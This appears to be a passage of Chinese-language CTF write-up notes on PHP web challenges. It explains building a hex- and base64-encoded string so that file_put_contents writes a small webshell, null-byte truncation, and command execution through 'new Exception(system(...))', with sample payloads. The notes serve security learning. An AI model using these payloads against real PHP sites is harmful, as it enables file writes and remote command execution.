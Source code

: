 ### e->科学计数法

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1668737646736-7eca6fcb-fa10-4b3d-8e8d-88d4a4f5ae01.png#averageHue=%23fefefe&clientId=u4787ae80-6c34-4&from=paste&height=249&id=ud8870260&originHeight=497&originWidth=646&originalType=binary&ratio=1&rotation=0&showTitle=false&size=37119&status=done&style=none&taskId=u3f72e7d5-c7b7-4df1-a2a2-8d3258bbd1c&title=&width=323)

```php
substr("abcde" ,2 )//返回cde
call_user_func($v1, $s)//回调函数，$v1为函数名称，$s是传到函数中的参数
file_put_contents($v3, $str)//向v3中写入字符串str
```

- 这里显然是需要构造一个字符串v2，让v2在调用某个函数后，可以写到文件中
- 这里还要求v2得是数字，因此中间可以有e，即科学技术法的表示形式
- **php5下is_numeric可识别16进制，如0x2e**

构造`<?=`cat *`;`

- x对字符串先base64加密，再用16进制编码
- 因此对$v1传入hex2bin，即将16进制字符串转为二进制
- file_put_contents函数可以传入伪协议，用base64解码后写入到1.php中

**注意点：这个先base64-encode再hex编码后，最后可能有2d是空格，需要去掉**


### %00截断

- 00截断是操作系统层的漏洞。由于操作系统是C语言或[汇编语言](https://so.csdn.net/so/search?q=%E6%B1%87%E7%BC%96%E8%AF%AD%E8%A8%80&spm=1001.2101.3001.7020)编写的(php也是c语言编写的)，这两种语言在定义字符串时，都是以\0（即0x00）作为字符串的结尾。操作系统在识别字符串时，当读取到\0字符时，就认为读取到了一个字符串的结束符号

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1668775864424-5821c228-1d80-4cdd-acd5-f67d2752463f.png#averageHue=%23fefefd&clientId=u9bb5c3e9-c140-4&from=paste&height=245&id=u86fd5c54&originHeight=490&originWidth=1095&originalType=binary&ratio=1&rotation=0&showTitle=false&size=41229&status=done&style=none&taskId=u3a695074-82e1-4533-b6e7-cc5240e533f&title=&width=547.5)

- 这里可以通过传入`a%00778`，%00后就可以写数字了

### 类的命令执行

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1668777107617-59c8e3e4-be46-4581-b79d-fb71b374de71.png#averageHue=%23fefefe&clientId=u9bb5c3e9-c140-4&from=paste&height=205&id=ub9d80391&originHeight=410&originWidth=1176&originalType=binary&ratio=1&rotation=0&showTitle=false&size=34159&status=done&style=none&taskId=u86011799-afbc-427f-8360-6ee5a5b10ab&title=&width=588)

- 看题的想法是需要找到一个类，在类的()里可以执行phpinfo()

Exception类：

```php
echo new Exception('aaa') //输出中有aaa
echo new Exception(phpinfo())//会输出phpinfo()
```

- 因此我可以rce

```php
v1=Exception&v2=system('ls')
//相当于先执行system('ls'),返回flag.txt，再调用flag.txt()，无返回结果
v1=Exception&v2=system('echo phpinfo')
//这就相当于'phpinfo'()---->可以执行phpinfo()函数
```

#### 遍历文件类
